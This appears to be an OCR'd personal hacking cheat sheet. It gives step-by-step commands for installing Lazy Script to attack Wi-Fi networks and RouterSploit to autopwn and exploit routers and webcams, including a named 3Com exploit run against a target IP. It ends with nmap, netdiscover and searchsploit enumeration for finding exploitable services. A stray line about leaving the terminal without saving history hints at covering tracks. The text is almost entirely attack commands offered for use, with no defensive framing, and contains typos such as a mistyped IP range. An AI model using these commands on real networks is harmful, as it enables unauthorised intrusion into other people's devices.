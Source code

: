 ```exits the terminal without saving history ```
### LAZY SCRIPT --> WIFI VULN ###
# https://null-byte.wonderhowto.com/how-to/hack-wi-fi-networks-more-easily-with-lazy-script-0185764/
# https://github.com/arismelachroinos/lscript

cd
git clone https://github.com/arismelachroinos/lscript.git
cd lscript
chmod +x install.sh
./install.sh
iwconfig wlan0 mode monitor
ip a

######$#############################################################

###3 ROUTERSPLOIT --> ROUTERS, WEBCAM, ANY BROADCASTED DEVICE ### 

# https://null-byte.wonderhowto.com/how-to/seize-control-router-with-routersploit-0177774/
# AutoPwn 
#
sudo apt-get install python3-pip requests paramiko beautifulsoup4 pysnmp
git clone https://github.com/threat9/routersploit
cd routersploit
python3 -m pip install -r requirements.txt
python3 rsf.py

#### (Install for mac os)
git clone https://github.com/threat9/routersploit
cd routersploit
sudo easy_install pip
sudo pip install -r requirements.txt
#
cd
cd routersploit
sudo python ./rsf.py
##
show all # Everything on RS 
# scanning a target 
use scanners/autopwn 
show options ## shows the variales chosen for module seleted ^ 
set target xxx.xxx.xxx
run 
use exploits/routers/3com/3cradsl72_info_disclosure ## to run specific exploit after scan run 
show options
set target <target router IP>
check
run 


#### Basic Enumeration With Metasploit and Nmap  #### 
### use netdiscover or arp -a for local network
ls -al /usr/share/nmap/scripts/  
netdiscover -i eth0 -r 192.168.50.xxx/24 
nmap -sn 192.168.50.xxx/24 
# look for target OS and service versions (pay attention to service versions for exoit and vuln scan)
# pay attention to ftp timeout 
# pay attentin to CVE number--> look online for exploit detials 
nmap 192.168.50.TARGET_IP # scans 1000 of most common ports 
nmap  -sS -A -T1 -p- 92.168.50.TARGET_IP -oN target_info_nmap.txt 
ls -al /usr/share/nmap/scripts/ | grep -e "ftp-" 
nmap -sV -p 21  192.168.50._TARGET_IP --script /usr/share/nmap/scripts/FTP_SCRIPT_DUMMY
searchsploit FTP_SCRIPT_DUMMY 
```